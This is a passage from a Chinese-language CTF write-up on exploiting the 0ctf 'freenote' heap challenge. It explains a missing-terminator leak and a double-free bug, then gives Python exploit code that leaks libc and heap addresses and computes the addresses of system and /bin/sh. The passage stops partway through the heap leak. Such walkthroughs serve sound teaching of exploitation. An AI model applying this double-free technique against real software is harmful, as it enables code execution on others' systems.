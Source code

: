 ![](../pictures/linuxrop7.jpg)   

我们这次使用0ctf中的freenote这道题来实践一下double free漏洞的利用。执行这个程序我能看到这其实就是一个note记事本程序。通过new note和delete note可以malloc()和free()内存。  
```
$ ./freenote_x64 
== 0ops Free Note ==
1. List Note
2. New Note
3. Edit Note
4. Delete Note
5. Exit
====================
```
但是这个程序有两个漏洞，一个是建立新note的时候在note的结尾处没有加"\0"因此会造成堆或者栈的地址泄露，另一个问题就是在delete note的时候，并不会检测这个note是不是已经被删除过了，因此可以删除一个note两遍，造成double free。  

首先我们要泄露libc和heap在内存中的地址。因为note的结尾没有"\0"，因此在输出时会把后面的内容打印出来。因为freelist的头部保存在了libc的.bss段，因此我们可以见通过删除两个note再删除一个note，然后再建立一个新note的方法来泄露出libc在内存中的地址：  
```
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\xb8")
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
delete_note(1)
delete_note(0)

system_sh_addr = leaklibcaddr - 0x3724a8
print "system_sh_addr: " + hex(system_sh_addr)
binsh_addr = leaklibcaddr - 0x23e7f1
print "binsh_addr: " + hex(binsh_addr)
```
同样的如果让某个非使用中 chunk 的fd栏位指向另一个 chunk，并且让note的内容刚好接上，就可以把 chunk在堆上的位置给洩漏出来。这样我们就能得到堆的基址。  
```
notelen=0x10    

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)
```